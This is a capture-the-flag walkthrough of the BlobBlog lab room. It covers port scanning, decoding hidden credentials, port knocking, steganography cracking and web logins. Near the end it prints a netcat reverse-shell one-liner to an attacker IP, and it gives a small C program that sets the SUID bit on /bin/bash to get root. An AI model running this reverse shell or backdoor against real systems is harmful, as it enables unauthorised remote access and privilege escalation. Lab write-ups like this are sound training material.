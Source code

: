 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx blobblog.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV blobblog.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# HTTP (port 80)
found a base64, decode it and give us a brainfuck code
execute the brain code fuck give us that : 
When I was a kid, my friends and I would always knock on 3 of our neighbors doors.  Always houses 1, then 3, then 5!

bottom of the page, we found that
```
<!--
Dang it Bob, why do you always forget your password?
I'll encode for you here so nobody else can figure out what it is: 
HcfP8J54AK4
-->
```

decode from base58, it gives us : cUpC4k3s


seems we need to knock to port 1 then 3 then 5
we redo a nmap and find more port

```
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.2
22/tcp   open     ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Apache httpd 2.4.7 ((Ubuntu))
445/tcp  open     http    Apache httpd 2.4.7 ((Ubuntu))
5355/tcp filtered llmnr
8080/tcp open     http    Werkzeug httpd 1.0.1 (Python 3.5.3)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

ok let's enumerate more on port 80\
it seems there is nothing more

# FTP (port 21)

we can use previous code to login to ftp
bob:cUpC4k3s

we found 2 files :
- cool.jpeg
- examples.desktop

```
┌──(kali㉿kali)-[~/thm/BlobBlog]
└─$ stegseek --crack cool.jpeg /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "p@55w0rd"       
[i] Original filename: "out.txt".
[i] Extracting to "cool.jpeg.out".

┌──(kali㉿kali)-[~/thm/BlobBlog]
└─$ cat cool.jpeg.out 
zcv:p1fd3v3amT@55n0pr
/bobs_safe_for_stuff
```

# HTTP (port 445)
http://blobblog.thm:445/bobs_safe_for_stuff
Remember this next time bob, you need it to get into the blog! I'm taking this down tomorrow, so write it down!
- youmayenter

http://blobblog.thm:445/user
we found a openssl private key but cant use it

# HTTP (port 8080)
we found an other url on 8080
http://blobblog.thm:8080/blog
http://blobblog.thm:8080/login
http://blobblog.thm:8080/review

we vigenère cipher with zcv and can decrypt it with passphrase youmayenter
bob:d1ff3r3ntP@55w0rd


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.72.209 6666 >/tmp/f

we call blogFeedback as 
/usr/bin/blogFeedback 6 5 4 3 2 1

we privesc to blolobaw


#include <stdlib.h>

int main(void) {
  system("chmod u+s /bin/bash");
  return 0;
}

with that code, we can abuse the process that gcc a file owned by user and compiled and executed by root
